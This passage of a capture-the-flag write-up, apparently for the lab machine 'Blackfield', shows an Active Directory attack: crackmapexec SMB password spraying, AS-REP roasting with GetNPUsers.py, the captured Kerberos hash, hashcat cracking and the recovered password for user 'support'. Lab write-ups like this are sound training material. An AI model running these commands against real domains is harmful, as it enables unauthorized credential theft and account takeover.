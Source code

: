 ```shell
crackmapexec smb ${TARGET_IP} -u audit2020 -p /usr/share/wordlists/rockyou.txt
crackmapexec smb ${TARGET_IP} -u svc_backup -p /usr/share/wordlists/rockyou.txt
crackmapexec smb ${TARGET_IP} -u support -p /usr/share/wordlists/rockyou.txt
```

but this would be very long ...

From : [HackTrick - AD](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology#knowing-one-or-several-usernames)

There could be a vulnerability called [asreproast](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast).

> The ASREPRoast attack looks for users without Kerberos pre-authentication required attribute (DONT_REQ_PREAUTH).
>
> That means that anyone can send an AS_REQ request to the DC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline.
>
> Furthermore, no domain account is needed to perform this attack, only connection to the DC. However, with a domain account, a LDAP query can be used to retrieve users without Kerberos pre-authentication in the domain. Otherwise usernames have to be guessed.

So let's give a try:

```shell
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -usersfile usernames.txt -dc-ip "$TARGET" "blackfield.local"/
```

and output file `ASREProastables.txt` contains one account :

```text
$krb5asrep$23$support@BLACKFIELD.LOCAL:83cac1041071b5da3bb656894493d45a$3e1864e9d972ef9e2c3c6b907a0de44dcd693741c37682be475dea23a5456e7cff127659443e3b9117a4c9acdab09092df6e1cb86a02dd20f807fa65ad12847b000f1612649775cc7b81e7581b63ff41a48f1b8b77fd16c16411f75599893663971403a4a3423631814bee0d7d534b79d09725185a32d5876b75abdbf5aed5592ca0482764f6b9b287de7c07edfc2fdf7f6e96466c39c02850cc6008dfa1777253773dd84d290f3b2849969caa696eca92469deb9f482dfc8b64c28dab3de6b926868741bbae439ca29cefa0c6983bcb90ff06b9bf68f167c36b9a52140798567a447cf23a0c9e30fe9a8eb85be7f5a126164230
```

So user `support` have `UF_DONT_REQUIRE_PREAUTH` set and is vulnerable.

As suggected, it can be cracked with :

```bash
hashcat -m 18200 --force -a 0 ASREProastables.txt /usr/share/wordlists/rockyou.txt 
```

After a little time, the password of user `support` is cracked :

| username              | password          | usage |
| ---                   | ---               | ---   |
| `blackfield\support`  | `#00^BlackKnight` |       |
